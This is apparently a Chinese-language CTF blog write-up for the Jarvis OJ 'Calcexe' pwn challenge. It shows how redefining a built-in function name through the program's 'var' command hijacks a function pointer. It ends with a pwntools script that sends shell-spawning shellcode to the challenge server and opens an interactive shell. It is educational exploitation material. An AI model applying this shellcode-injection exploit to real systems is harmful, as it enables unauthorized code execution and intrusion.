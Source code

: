 ```yaml
---
title: Jarvis OJ - Calcexe の Write-Up
date: 2021-02-04 14:28:26
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Introduction

&emsp;&emsp;题目捎带迷惑性，文件后缀为`.exe`，看起来是windows下的运行程序，结果在windows上根本无法运行。

<!-- more -->

## Step 1

&emsp;&emsp;checksec：

![](/img/Calcexe/Calcexe1.png)

&emsp;&emsp;依然是32位的ELF文件。

&emsp;&emsp;将程序在IDA中打开，在main函数中发现定义了10个功能：

![](/img/Calcexe/Calcexe2.png)

&emsp;&emsp;这是功能申明函数sub_804A719：

![](/img/Calcexe/Calcexe3.png)

&emsp;&emsp;所以程序运行是这样的：

![](/img/Calcexe/Calcexe4.png)

## Step 2

&emsp;&emsp;由于程序很长，所以就挑选关键部分来说。 程序申明了10个函数，如果能够控制这些函数的指针那么就可以控制程序跳转执行shellcode。

&emsp;&emsp;而在主函数后发现处理function的函数：

![](/img/Calcexe/Calcexe5.png)

&emsp;&emsp;`strtok()`是分割字符串的函数，这里用来处理空格。0x61是`'='`，0x34是`'“'`，所以根据伪代码发现程序允许通过`var`参数声明变量，命令格式为`var variable = “value”`。

&emsp;&emsp;这一段程序中还提到了下面的函数：

![](/img/Calcexe/Calcexe6.png)

&emsp;&emsp;分析sub_804A820函数发现程序寻址是通过比较变量名实现的，所以即使`var add = “eval”`也是程序允许的，这样我们就可以控制函数指针了。因此直接把某个函数的method改成shellcode即可。

## Step 3

&emsp;&emsp;解题脚本如下：

```
from pwn import *

context(arch = 'i386', os = 'linux')

sh = remote("pwn2.jarvisoj.com", 9892)

shellcode = asm(shellcraft.sh())
payload = 'var add = "'+ shellcode + '"'

sh.sendlineafter(">", payload)
sh.sendline('+')

sh.interactive()
sh.close()
```

&emsp;&emsp;脚本运行结果：

![](/img/Calcexe/Calcexe7.png)
